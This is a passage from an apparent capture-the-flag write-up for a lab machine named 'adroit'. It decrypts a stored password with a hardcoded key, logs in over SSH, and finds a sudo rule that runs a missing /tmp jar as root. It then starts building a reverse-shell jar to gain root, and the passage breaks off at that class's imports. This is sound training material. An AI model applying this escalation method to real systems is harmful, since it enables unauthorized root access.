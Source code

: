 public class Main {

	public static void main(String[] args) throws InvalidKeyException, NoSuchPaddingException, NoSuchAlgorithmException, BadPaddingException, IllegalBlockSizeException, UnsupportedEncodingException {
	
		Cryptor cryptor = new Cryptor();
		String password = cryptor.decrypt("Sup3rS3cur3Dr0it", "l4A+n+p+xSxDcYCl0mgxKr015+OEC3aOfdrWafSqwpY=");
		System.out.println(password);

	}

}
###################################
New Result : just.write.my.ideas
###################################

## SSH Connection, user.txt

username : writer
password : just.write.my.ideas

┌──(alienum㉿kali)-[~]
└─$ ssh writer@10.0.2.142
writer@10.0.2.142's password: just.write.my.ideas

writer@adroit:~$ sudo -l
[sudo] password for writer: just.write.my.ideas
Matching Defaults entries for writer on adroit:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User writer may run the following commands on adroit:
    (root) /usr/bin/java -jar /tmp/testingmyapp.jar
writer@adroit:~$ 


## Root priv esc

The user writer he is able to run the testingmyapp.jar under the /tmp dir as root
If we check the /tmp dir there is no file named testingmyapp.jar.
So, we are able to create our malware reverse shell testingmyapp.jar

## ECLIPSE Creating our testingmyapp.jar

File -> New -> Java Project -> Project name : testingmyapp
Expand the testingmyapp project file -> Choose the src file + right click -> New -> Class -> Name : Explo


### Explo.class Reverse shell
import java.io.BufferedReader;
import java.io.IOException;
import java.io.InputStreamReader;
